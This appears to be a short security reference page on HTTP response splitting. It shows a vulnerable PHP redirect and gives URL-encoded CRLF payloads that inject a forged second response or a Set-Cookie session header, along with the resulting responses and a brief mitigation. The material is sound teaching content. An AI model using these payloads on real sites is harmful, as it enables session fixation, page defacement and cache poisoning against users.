 # HTTP Response splitting

## Attack tree

```text
1 Provide a URL with a complete second response, to be rendered in the browser (OR)
2 Inject HTTP headers into the response (for example a Set-Cookie header)
```

## Examples

### Provide a url with a complete second response

In the application:

    header("Location: {$_GET['url']}");

Normal send request:

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php

The response generated:
    
    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Content-Length: 0

A browser receiving this response transparently requests the new resource (indicated in the Location header), and it 
is the response to this second request that is actually rendered in the browser.

So now attack with:
    
    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0A%0D%0AHTTP%2F1.1+200+OK%0D%0AContent-Type%3A+text%2Fhtml%0D%0AContent-Length%3A+34%0D%0A%3Chtml%3E%3Cp%3EHacked%3C%2Fp%3E%3C%2Fhtml%3E

Generates:


    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
     
    HTTP/1.1 200 OK
    Content-Type: text/html
    Content-Length: 34
     
    <html><p>Hacked</p></html>
     
    Content-Length: 0

### Inject Set-Cookie header

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0ASet-Cookie%3A+PHPSESSID%3D1234

This results in a response that sets a cookie:

    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Set-Cookie: PHPSESSID=1234
    Content-Length: 0

And now you know the session identifier.

## Notes

HTTP Response Splitting or CRLF injection enables various attacks such as web cache poisoning, cross user defacement, 
hijacking pages with sensitive user information and cross-site scripting (XSS). 

If you can inject newline characters into the header, then you can inject new HTTP headers and by injecting an 
empty line, break out of the headers into the message body and write arbitrary content into the application's response.

You may need to use url encoding, or double url encoding, etc.

## Mitigations

* Sanitize input values